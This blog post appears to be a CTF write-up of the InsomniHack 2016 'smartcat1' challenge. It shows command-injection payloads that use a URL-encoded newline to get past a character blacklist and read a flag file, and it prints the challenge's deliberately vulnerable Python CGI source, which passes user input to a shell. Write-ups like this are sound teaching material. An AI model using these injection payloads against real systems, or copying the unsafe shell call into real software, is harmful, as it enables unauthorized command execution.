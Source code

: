 ```yaml
---
layout: blog_item
title:  "InsomniHack CTF Teaser - Smartcat1 Writeup"
date:   2024-01-18 14:00:10
author: Dhruv Ambaliya
description: 'InsomniHack Teaser CTF 2016, smartcat1 challenge writeups.'
categories: [walkthroughs]
tags:
- burp
- 'command injection'
- CTF
---
```


<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}


## Challenge Description

Exploit the web based ping command tool and capture the flag.  

![smartcat1 CTF](/img/blog/insomnihack/smartcat1.png)

## InsomniHack Smartcat1

Entering nothing or a <code>'</code> renders the error: <code>Error running ping -c 1 foo</code>. Enumeration indicated the following characters were filtered <code>$;&amp;|({`\t</code> Note, that included whitespace filtering.  

I loaded up burp and went through the ASCII table for other ways of escaping the command. It was possible to use LF <code>%0a</code> to escape the existing command and enter another such as: <code>dest=8.8.8.8%0als</code>.

Viewing the source code of <code>index.cgi</code> confirmed the character filtering.

{% highlight python %}
#!/usr/bin/env python

import cgi, subprocess, os

headers = ["mod_cassette_is_back/0.1","format-me-i-im-famous","dirbuster.will.not.help.you","solve_me_already"]

print "X-Powered-By: %s" % headers[os.getpid()%4]
print "Content-type: text/html"
print

print """
&lt;html&gt;

&lt;head&gt;&lt;title&gt;Can I haz Smart Cat ???&lt;/title&gt;&lt;/head&gt;

&lt;body&gt;

  &lt;h3&gt; Smart Cat debugging interface &lt;/h3&gt;
"""

blacklist = " $;&amp;|({`\t"
results = ""
form = cgi.FieldStorage()
dest = form.getvalue("dest", "127.0.0.1")
for badchar in blacklist:
    if badchar in dest:
        results = "Bad character %s in dest" % badchar
        break

if "%n" in dest:
    results = "Segmentation fault"

if not results:
    try:
        results = subprocess.check_output("ping -c 1 "+dest, shell=True)
    except:
        results = "Error running " + "ping -c 1 "+dest

print """

  &lt;form method="post" action="index.cgi"&gt;
    &lt;p&gt;Ping destination: &lt;input type="text" name="dest"/&gt;&lt;/p&gt;
  &lt;/form&gt;

  &lt;p&gt;Ping results:&lt;/p&gt;&lt;br/&gt;
  &lt;pre&gt;%s&lt;/pre&gt;

  &lt;img src="../img/cat.jpg"/&gt;

&lt;/body&gt;

&lt;/html&gt;
""" % cgi.escape(results)
{% endhighlight %}

## Flag

Entering <code>dest=%0afind</code> listed the current directory, revealing the path of the flag.

{% highlight bash %}
dest=8.8.8.8%0acat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag
{% endhighlight %}

Flag contents:

{% highlight bash %}
INS{warm_kitty_smelly_kitty_flush_flush_flush}
{% endhighlight %}

Thanks for the CTF :)
